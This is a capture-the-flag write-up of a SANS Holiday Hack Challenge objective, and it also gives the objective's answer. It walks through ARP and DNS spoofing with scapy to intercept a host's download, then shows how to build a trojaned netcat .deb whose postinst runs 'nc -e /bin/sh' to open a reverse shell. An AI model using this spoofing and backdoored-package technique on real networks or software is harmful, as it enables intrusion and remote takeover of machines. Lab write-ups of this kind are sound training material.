 # Objective 9 – ARP Shennanigans #

## OBJECTIVE: ##
>Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP.  Retrieve the document at `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`.  Who recused herself from the vote described on the document?
#  

## HINTS ##
<details>
  <summary>Hints provided for Objective 9</summary>
 
>-	**ALABASTER SNOWBALL:** Jack Frost must have gotten malware on our host at `10.6.6.35` because we can no longer access it.  Try sniffing the eth0 interface using `tcpdump -nni eth0` to see if you can view any traffic from that host.
>-	**ALABASTER SNOWBALL:** The host is performing an ARP request.  Perhaps we could do a spoof to perform a machine-in-the-middle attack.  I think we have some simple `scapy` traffic scripts that could help you in `/home/guests/scripts`.
>-	**ALABASTER SNOWBALL:** Hmmm, looks like the host does a DNS request after you successfully do an ARP spoof.  Let’s return a DNS response resolving the request to our IP.
>-	**ALABASTER SNOWBALL:** The malware on the host does an HTTP request for a .deb package.  Maybe we can get command line access by sending it [a command in a customized .deb file](http://www.wannescolman.be/?p=98).



</details>

#  
## PROCEDURE: ##
Well... judging juist by the sheer amount of hints we get for this objective; I’m guessing it’s going to be a tough one!

Let’s start by following the hints.  Running ``tcpdump -nni eth0``.  We see a number of ARP requests for `10.6.6.53` from `10.6.6.35` (which is the host we need to regain access to).  At this point I’m guessing that `10.6.6.53` is a malicious machine and that `10.6.6.35` is trying to reach it to establish some kind of reverse shell.  So maybe we can get `10.6.6.35` to believe that we are `10.6.6.53`.

We can sniff and record packets by entering `scapy` and running ``pkts = sniff(iface=’eth0’)``.  We can then view specific packets by referencing ``pkts[x]``  or ``pkts.summary()``.

From one of the logged Scapy entries we can see that the `10.6.6.35` machine has a MAC of `4c:24:57:ab:ed:84`
 ![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/89959548-43c7-4e9f-a933-79bcceb779af)

We need to properly craft an ARP response:

`Ether_resp = Ether(dst=4c:24:57:ab:ed:84, type=0x806, src=02:42:0a:06:00:02)`

`arp_response.op=2` *because this is an ARP response*

`arp_response.plen=4` *because there are 4 octets in a IPv4 address*

`arp_response.hwlen=6` *because there are 6 octets in an Ethernet address*

`arp_response.ptype=0x800` *this is the code for IPv4*

`arp_response.hwtype=0x1` *this is the code for Ethernet*

`arp_response.hwsrc="02:42:0a:06:00:02"` *this is my terminal’s MAC*

`arp_response.psrc="10.6.6.53"` *this is the IP I’m spoofing*

`arp_response.hwdst=4c:24:57:ab:ed:84` *this is the MAC obtained in Scapy*

`arp_response.pdst="10.6.6.35"` *this is the IP we’re sending the response to.*


After running `./arp_resp.py` I can see the following output on the tcpdump – looks like a DNS request so I must be on the right track:
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/efd14fb2-f627-43b4-9fb3-8e6dee1ec5a3)

It is also possible toget more details from the Scapy sniff – the DNS portion is particularly useful now.
```
<Ether  dst=02:42:0a:06:00:02 src=4c:24:57:ab:ed:84 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=60 id=1 flags= frag=0 ttl=64 proto=udp chksum=0x5a4d src=10.6.6.35 dst=10.6.6.53 |<UDP  sport=42244 dport=domain len=40 chksum=0x9559 |<DNS  id=0 qr=0 opcode=QUERY aa=0 tc=0 rd=1 ra=0 z=0 ad=0 cd=0 rcode=ok qdcount=1 ancount=0 nscount=0 arcount=0 qd=<DNSQR  qname='ftp.osuosl.org.' qtype=A qclass=IN |> an=None ns=None ar=None |>>>>
```

Thanks to the hints I now know that I need to spoof a DNS response and have it point to my terminal.  For this I need to update the `dns_resp.py` script with the following parameters:
```
ipaddr_we_arp_spoofed = "10.6.6.53"
eth = Ether(src="02:42:0a:06:00:02", dst="4c:24:57:ab:ed:84")
ip=IP(dst="10.6.6.35", src="10.6.6.53")
udp=UDP(dport=12773,sport=53)
    dns = DNS(
      id=packet[DNS].id,
      qd=packet[DNS].qd,
      aa=1,
      qr=1,
      ancount=1,
      an=DNSRR(rrname=packet[DNS].qd.qname, ttl=10, rdata=ipaddr)
    )
```
To figure out this last bit I had to resort to asking for help on Discord.  **@elakamarcus#5519** helped me out a lot by pointing me towards [a nice script](https://www.cs.dartmouth.edu/~sergey/netreads/local/reliable-dns-spoofing-with-python-scapy-nfqueue.html) online which I used for reference to create my own scipts; [arp_resp.py](code/arp_resp.py) and [dns_resp.py](code/dns_resp.py). 

With the scripts ready I started ``tcpdump –nni eth0 –w outfile.pcap`` in one terminal then ran ``./dns_resp.py`` in another terminal and left it running.  Finally I ran ``./arp_resp.py`` in the third terminal and this generated the ARP response we did previously, and then a DNS response to the request that was triggered.  

Looking at the resulting pcap file in Scapy;
```
>>>f=rdpcap(“/home/guest/outfile.pcap”)
>>>f.summary()
>>>f[IP].summary()
```
We now see a number of new requests including http requests.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/0cccf691-cc10-484e-8647-1a13c44b1d85)
 

We can use ``>>> hexdump(f[IP][12].load)`` to see the contents of individual packets.

I now started up a http server as suggested by the HELP.md file:
```
~$ python3 –m http.server 80
```

If I try sending out the crafted ARP response and DNS response packets again I receive a GET instruction on the http server and guess what?.... it looks like Jack Frost is trying to download a file called `suriv_amd64.deb`!

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/61051b2c-f2e1-4eb5-9a66-39dba2de50d9)

 
Well this seems like an opportunity to pass on my own .deb file with a reverse shell to give me access to the compromised terminal.
I created an empty file called `suriv_amd64.deb` and the `/pub/jfrost/backdoor/` directories and I confirm that the file is being download with my http server returning code 200 now.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/377aae44-d9ed-4d79-ae30-8da4fd0cbf68)
  
OK – so all I need is to find some way to make the deb file open a reverse shell when it is installed on the compromised machine.  This is where [the link in one of the hints for this objective](http://www.wannescolman.be/?p=98) came in very handy.

I took the Netcat debian file found in the `debs/` folder and de-packaged it to a temporary folder called `work/`: 
```
~$ dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb work
```

I created a directory called `DEBIAN` in work
```
~$ mkdir work/DEBIAN
```

I extracted the `control` and `postinst` files from the deb package and moved them to the `work/DEBIAN/` directory:
```
~$ ar -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb
~$ tar -xf control.tar.xz ./control
~$ tar -xf control.tar.xz ./postinst
~$ mv control work/DEBIAN/
~$ mv postinst work/DEBIAN/
```

Now I added a line to the end of the `postinst` file to have it establish a Netcat reverse shell (We know that Netcat is installed if the deb has been run).
```
~$ echo “nc -e /bin/sh 10.6.0.4 5555” >> work/DEBIAN/postinst
```

And I re-package the deb file:
```
~$ dpkg-deb --build work/
```

Finally I moved the .deb file to the web server, renaming it to the file Jack Frost is looking for:
```
~$ mv work.deb /home/guest/pub/jfrost/backdoor/suriv_amd64.deb
```

Now we start a Netcat listener, start the web server, run the DNS response script and the ARP response script and after a few seconds – we have a Netcat session up and running!  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/87d67274-fb8c-4da2-8e5d-897ed90dfbe0)

Conveniently I’m in the same directory as `NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` and I can simply see its contents with `cat`:
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/82d7b466-78d4-487f-acd9-bf649459aa26)

That’s it – **Tanta Kringle** was the one who recused herself from the vote.  I can’t believe I made it this far!!
